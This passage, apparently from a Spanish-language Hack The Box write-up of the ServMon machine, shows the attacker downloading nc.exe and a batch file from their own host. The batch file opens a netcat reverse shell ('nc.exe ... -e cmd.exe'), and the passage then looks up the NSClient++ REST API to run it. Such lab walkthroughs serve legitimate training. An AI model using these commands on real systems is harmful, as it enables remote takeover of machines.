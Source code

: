 Levantamos un servidor http con Python:

```shell
root@kali:~/HTB/servmon# python -m SimpleHTTPServer 
Serving HTTP on 0.0.0.0 port 8000 ...
```

Iniciamos las descargas:

```cmd
nadine@SERVMON C:\Temp>powershell Invoke-WebRequest "http://10.10.14.27:8000/lexsaaaa.bat -OutFile .\lexsaaaa.bat"

nadine@SERVMON C:\Temp>powershell Invoke-WebRequest "http://10.10.14.27:8000/nc.exe -OutFile .\nc.exe"      

nadine@SERVMON C:\Temp>dir
 Volume in drive C has no label.
 Volume Serial Number is 728C-D22C

 Directory of C:\Temp

25/04/2020  07:14    <DIR>          .
25/04/2020  07:14    <DIR>          ..
25/04/2020  07:06                72 lexsaaaa.bat
25/04/2020  07:14            59,392 nc.exe
               2 File(s)         59,464 bytes
               2 Dir(s)  27,431,362,560 bytes free
nadine@SERVMON C:\temp>type lexsaaaa.bat
@echo off
C:\Temp\nc.exe  10.10.14.27 4466 -e cmd.exe
```

Ahora tocaría ejecutar el external script.

Leyendo:<https://docs.nsclient.org/api/rest/queries/>

Nos indica que podemos hacer consultas a nuestro external script y lo mas valioso es que estas consultas nos detalla el query de ejecución.

```powershell
nadine@SERVMON C:\Program Files\NSClient++>powershell -c "curl.exe -k -u admin https://127.0.0.1:8443/api/v1/queries/lexsaaaa"
Enter host password for user 'admin':
{"description":"Alias for: scripts\\lexsaaaa.bat","execute_nagios_url":"https://127.0.0.1:8443/api/v1/queries/lexsaaaa/commands/execute_nagios","execute_url":"https://1
27.0.0.1:8443/api/v1/queries/lexsaaaa/commands/execute","metadata":{},"name":"lexsaaaa","title":"lexsaaaa"}
```

lo importante es:

```
"execute_url":"https://127.0.0.1:8443/api/v1/queries/lexsaaaa/commands/execute"
```

Entonces aplicamos esa consulta de ejecución, pero antes abrimos un puerto de escucha en nuestro kali para recibir la shell reversa.
